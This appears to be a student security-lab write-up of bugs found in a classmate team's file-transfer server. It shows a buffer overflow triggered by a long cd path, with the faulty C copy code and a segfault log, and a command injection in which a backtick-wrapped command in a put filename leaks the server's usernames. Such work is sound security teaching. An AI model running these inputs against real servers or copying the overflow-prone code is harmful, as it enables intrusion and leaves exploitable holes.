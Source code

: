 ## Team1

### Buffer overflow

* Giving a long path to the CD command will overflow the path buffer. The code as it is, is trying to set an invalid array positon. The only catch is that, the directory which we want to cd into, should exist.

```C
char path[128];
// check size limitations
size_t len = strlen(current);
strncpy(path, current, len);
path[128] = '\0';
```
```
Server output:
 [127.0.0.1] Received line: login n
 [127.0.0.1] Received line: pass 1
 [127.0.0.1] Successfully logged in as: n
 [127.0.0.1] Received line: cd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
mc08 56 $ 

```
### Command injection

* The put comand creates a file by using the '>' operator. We can thus inject commands in the filename

Getting back a list of all usernames on the server:
```
mc08 124 $ ./client 127.0.0.1 31337
[i] Connecting to 127.0.0.1:31337
login n
pass 1
ls
total 0
put `users` 4
open(): No such file or directory
put port: 64049
Attempting to transfer file before put call
mc08 125 $ ./client 127.0.0.1 31337
[i] Connecting to 127.0.0.1:31337
login n
pass 1
ls
total 0
-rw-r----- 1 njaganna njaganna 0 Mar 18 12:00 achiraya chou63 chou63 njaganna njaganna wei253 wu1220

```

### Design bugs

* None of the alias commands take parameters.
* No directory structure


